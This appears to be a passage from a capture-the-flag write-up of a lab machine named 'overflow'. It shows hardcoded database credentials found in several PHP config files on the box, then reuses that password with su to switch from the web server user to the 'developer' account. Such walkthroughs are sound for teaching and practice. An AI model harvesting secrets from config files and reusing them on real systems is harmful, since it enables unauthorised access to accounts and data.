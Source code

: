 ```

<?php 

#define('DB_Server', 'localhost');
#define('DB_Username', 'root');
#define('DB_Password','root');
#define('DB_Name', 'Overflow');

$lnk = mysqli_connect("localhost","developer", "sh@tim@n","Overflow");
$db = mysqli_select_db($lnk,"Overflow");

if($db == false){
    dir('Cannot Connect to Database');
}

?>

```

The same creds are again in `/var/www/devbuild-job/config/db.php`:

```

<?php
$lnk = mysqli_connect("localhost","developer", "sh@tim@n","develop");
?>

```

And the same creds again in `/var/www/html/admin_cms_panel/config.php`:

```

<?php
# CMS Made Simple Configuration File
# Documentation: https://docs.cmsmadesimple.org/configuration/config-file/config-reference
#
$config['dbms'] = 'mysqli';
$config['db_hostname'] = 'localhost';
$config['db_username'] = 'developer';
$config['db_password'] = 'sh@tim@n';
$config['db_name'] = 'cmsmsdb';
$config['db_prefix'] = 'cms_';
$config['timezone'] = 'America/Argentina/Tucuman';
?>

```

### su/ssh

That password, “sh@tim@n”, works for the developer user on the box:

```

www-data@overflow:~$ su - developer
Password: 
-su: 28: set: Illegal option -o history
-su: 1: set: Illegal option -o history
$ id
uid=1001(developer) gid=1001(developer) groups=1001(developer),1002(network)
$ bash
developer@overflow:~$ 

```
